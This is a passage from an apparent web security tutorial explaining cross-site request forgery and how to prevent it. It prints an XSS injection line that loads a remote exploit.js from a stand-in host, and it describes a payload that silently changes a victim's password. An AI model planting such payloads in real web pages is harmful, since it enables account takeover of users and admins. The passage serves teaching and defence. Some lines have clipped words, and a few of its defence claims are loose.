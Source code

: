 # Cross-Site Request Forgery 
third type of front end vulnerability that is caused by unfiltered user input is Cross-Site Request Forgery (CSRF). CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to.

This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically.

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:
```
Code: html
"><script src=//www.example.com/exploit.js></script>
```
The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs.

he attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).

# Prevention 
Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end.

Two main controls must be applied when accepting user input:
**Type	Description**
  - Sanitization: Removing special characters and non-standard characters from user input before displaying it or storing it.
  - Validation: Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)
Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.


we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like HTML Injection, XSS, or CSRF. Another solution would be to implement a web application firewall (WAF), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

CSRF, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing JavaScript code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., anti-CSRF token, or http-only/X-XSS-Protection).




